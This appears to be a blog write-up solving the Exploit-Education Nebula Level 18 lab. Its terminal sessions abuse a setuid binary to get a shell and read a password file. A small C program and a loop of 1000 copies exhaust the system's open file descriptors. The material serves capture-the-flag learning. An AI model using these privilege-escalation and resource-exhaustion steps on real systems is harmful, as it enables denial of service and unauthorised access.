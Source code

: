 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 18"
date:   2019-08-25 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 18](https://exploit.education/nebula/level-18/)

## Challenge

level18@nebula:~$ sysctl fs.file-nr
fs.file-nr = 5376       0       204482
level18@nebula:~$

level18@nebula:~$ sysctl fs.file-nr
fs.file-nr = 19424      0       204482



level18@nebula:~$ cd ../flag18
level18@nebula:/home/flag18$ ./flag18 -d /dev/tty -v
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
shell
./flag18: -d: invalid option
Usage:  ./flag18 [GNU long option] [option] ...
        ./flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
level18@nebula:/home/flag18$ ./flag18 --init-file -d /dev/tty -v
./flag18: invalid option -- '-'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'n'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 't'
./flag18: invalid option -- '-'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
shell
ls
--d  flag18  password  -v
getflag
You have successfully executed getflag on a target account
cat password
44226113-d394-4f46-9406-91888128e27a




#include <sys/stat.h>
#include <fcntl.h>
int main(int argc, char **argv, char **envp)
{
        int i=0;
        for (i=0;i<4096;i++)
        {
                printf ("%d\n",i);
                open("/tmp/open","r");
        }
getchar();
return 0;
}




level18@nebula:~$ gcc filed.c

level18@nebula:~$sysctl fs.file-nr
fs.file-nr = 153312     0       204482

level18@nebula:~$for i in {1..1000};do ./a.out & done

level18@nebula:~$sysctl fs.file-nr
-sh: start_pipeline: pgrp pipe: Too many open files in system
-sh: /sbin/sysctl: Too many open files in system
[1232]   Done(126)               ./a.out
[1233]   Done(126)               ./a.out
[1234]   Done(126)               ./a.out
[1235]   Done(126)               ./a.out
[1236]   Done(126)               ./a.out

level18@nebula:~$for i in {1..100};do kill "%$i";done

https://decepticode.wordpress.com/2016/05/07/nebula-level18/comment-page-1/